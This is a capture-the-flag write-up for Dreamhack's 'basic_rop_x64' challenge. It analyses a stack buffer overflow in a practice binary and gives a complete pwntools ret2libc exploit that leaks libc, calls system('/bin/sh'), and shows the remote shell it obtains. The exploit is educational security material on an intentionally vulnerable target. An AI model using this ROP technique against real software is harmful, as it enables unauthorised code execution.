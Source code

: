```yaml
---
title: "[DREAMHACK] - basic_rop_x64"
published: 2025-01-30
description: ""
image: "../image.png"
tags:
  - PWN
category: "Wargame"
draft: false
---
```


## Analysis

```bash
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ file basic_rop_x64_patched
basic_rop_x64_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.35.so, for GNU/Linux 2.6.32, BuildID[sha1]=beee0ff502aca71479db7d481ef811576592438a, not stripped
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ checksec basic_rop_x64_patched
[*] '/home/alter/Dreamhack/basic_rop_x64/basic_rop_x64_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```

The binary with no Canary, and 64bit. Let's take a look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

We can see that there is a buffer overflow here:

```c
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400
```

The `buf` variable just can contain 0x40 bytes but we can input `0x400` bytes. So thath let's find the offset to saved RIP

Let's use `pwndbg`:

```nasm
   0x00000000004007ba <+0>:     push   rbp
   0x00000000004007bb <+1>:     mov    rbp,rsp
   0x00000000004007be <+4>:     sub    rsp,0x50
   0x00000000004007c2 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004007c5 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004007c9 <+15>:    lea    rdx,[rbp-0x40]
   0x00000000004007cd <+19>:    mov    eax,0x0
   0x00000000004007d2 <+24>:    mov    ecx,0x8
   0x00000000004007d7 <+29>:    mov    rdi,rdx
   0x00000000004007da <+32>:    rep stos QWORD PTR es:[rdi],rax
   0x00000000004007dd <+35>:    mov    eax,0x0
   0x00000000004007e2 <+40>:    call   0x40075e <initialize>
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
   0x00000000004007fd <+67>:    lea    rax,[rbp-0x40]
   0x0000000000400801 <+71>:    mov    edx,0x40
   0x0000000000400806 <+76>:    mov    rsi,rax
   0x0000000000400809 <+79>:    mov    edi,0x1
   0x000000000040080e <+84>:    call   0x4005d0 <write@plt>
   0x0000000000400813 <+89>:    mov    eax,0x0
   0x0000000000400818 <+94>:    leave
   0x0000000000400819 <+95>:    ret

```

We can see our `buf` is located in `[rbp-0x40]` we can see here:

```nasm
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
   0x00000000004007fd <+67>:    lea    rax,[rbp-0x40]
   0x0000000000400801 <+71>:    mov    edx,0x40
   0x0000000000400806 <+76>:    mov    rsi,rax
   0x0000000000400809 <+79>:    mov    edi,0x1
   0x000000000040080e <+84>:    call   0x4005d0 <write@plt>

```

So the offset from `buf` to `saved RBP` is `0x40` and we need to add more `16` bytes to overwrite the `saved RIP`

The next thing to do is leak the `libc address` because in this challenge, there is no way to read the flags except by calling the shell.

## Exploit

So there is a list we need to do

- Leak libc address using `write@plt` -> write(1, read@got, 8)

```python
pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
read_plt = exe.plt["read"]
read_got = exe.got["read"]
write_plt = exe.plt["write"]
write_got = exe.got["write"]
main = exe.symbols["main"]

payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main)
s(payload)
```

- Calculate

```python
ru(b'A'*0x40)
leak_libc = u64(rnb(6) + b'\\0\\0')
libc.address = leak_libc - libc.sym['read']
slog("Libc base", libc.address)
```

Why `ru(b'A'*0x40)`?
-> Because our buf can only hold `0x40` bytes and when we write for the first time `write(1, buf, sizeof(buf));` it will read full `0x40` bytes of `buf`. When we `write` again it will print out what we need.

P/s: I use `libc.address` here because initially, the address in `libc` when `libc = ELF('./libc.so.6', checksec=False)` is defaulted to 0, so the address every time we `payload += p64(libc.sym['system'])` will be the `offset` of libc to the system function, not the address of the system function. I don't want that! So I set `libc.address = leak_libc - libc.sym['read']` which will be the libc base. So when I use `payload += p64(libc.sym['system'])` it will automatically add that system offset and go straight to the system function for me. For example:

```bash
>>> from pwn import *
>>> libc = ELF('./libc.so.6', checksec=False)
>>> libc.address
0
>>> libc.sym['read']
1132928
>>> hex(libc.sym['read'])
'0x114980'
>>> libc.address = 1
>>> hex(libc.sym['read'])
'0x114981'
```

- Get shell

```python
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])
s(payload)
```

### Full payload

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./basic_rop_x64_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*0x0000000000400819
c
''') if not args.REMOTE else None

p = remote('host3.dreamhack.games',20302 ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
read_plt = exe.plt["read"]
read_got = exe.got["read"]
write_plt = exe.plt["write"]
write_got = exe.got["write"]
main = exe.symbols["main"]

# Leak libc address
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)
payload += p64(main)
s(payload)

ru(b'A'*0x40)
leak_libc = u64(rnb(6) + b'\\0\\0')
libc.address = leak_libc - libc.sym['read']
slog("Libc base", libc.address)
slog("Libc leak",leak_libc)

# Get shell
payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym['system'])
s(payload)

interactive()

```

```bash
alter ^ Sol in ~/Dreamhack/basic_rop_x64
$ ./xpl.py REMOTE
[+] Opening connection to host3.dreamhack.games on port 20302: Done
[+] Libc base: 0x7fb60fc8f000
[+] Libc leak: 0x7f243740f980
[*] Switching to interactive mode
\\x00\\x00\\xc0\\x8d\\xcb\\x0f\\xb6\\x7f\\x00\\x00 \\x14\\xcd\\x0f\\xb6\\x7f\\x00\\x00p\\x06\\xd1\\x0f\\xb6\\x7f\\x00\\x006\\x06@\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00$                                                                      AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$ ls
basic_rop_x64
flag
```
